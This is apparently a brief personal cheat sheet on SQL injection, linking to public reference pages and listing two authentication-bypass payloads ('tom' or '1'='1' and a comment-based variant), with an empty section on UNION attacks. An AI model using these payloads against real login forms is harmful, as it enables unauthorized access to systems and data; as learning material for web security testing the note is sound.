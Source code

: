 ____

https://tib3rius.com/sqli
https://portswigger.net/web-security/sql-injection/cheat-sheet

# Authentication bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

```sql
tom' or '1'='1
```

## Comments

```bash
'or id=5)#
```


# Union


